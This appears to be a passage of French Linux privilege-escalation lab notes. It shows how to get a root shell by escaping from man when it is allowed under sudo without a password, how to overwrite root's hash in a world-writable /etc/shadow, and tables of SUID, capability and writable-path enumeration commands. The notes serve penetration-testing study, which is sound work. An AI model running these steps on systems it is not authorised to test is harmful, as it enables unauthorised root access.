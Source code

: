 
### Miss configuration 
```bash
student@target:~$ sudo -l
Matching Defaults entries for student on target:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User student may run the following commands on target:
    (root) NOPASSWD: /usr/bin/man
    
man ls
!/bin/bash
```

```bash
si 
john@target2:~$ ls -la /etc/shadow
-rw-rw-rw- 1 root shadow 959 Nov 14  2024 /etc/shadow
 --> editable 
 
 so first :  openssl passwd -1 -salt abc passwd
get the hash 
and replace de root password in the shadow
```


### Fichiers SUID/SGID
| Commande | Description |
|----------|-------------|
| `find / -perm -4000 2>/dev/null` | Fichiers SUID |
| `find / -perm -2000 2>/dev/null` | Fichiers SGID |
| `find / -perm -6000 2>/dev/null` | Fichiers SUID et SGID |
| `find / -perm -1000 2>/dev/null` | Fichiers avec sticky bit |

### Capabilities
| Commande | Description |
|----------|-------------|
| `getcap -r / 2>/dev/null` | Fichiers avec capabilities |
| `capsh --print` | Capabilities actuelles |

---

## 📁 3. Système de fichiers

### Fichiers et répertoires accessibles en écriture
| Commande | Description |
|----------|-------------|
| `find / -writable -type d 2>/dev/null` | Répertoires accessibles en écriture |
| `find / -perm -222 -type f 2>/dev/null` | Fichiers accessibles en écriture |
| `find / -perm -o w -type d 2>/dev/null` | Répertoires world-writable |
| `ls -la /tmp /var/tmp /dev/shm` | Répertoires temporaires |
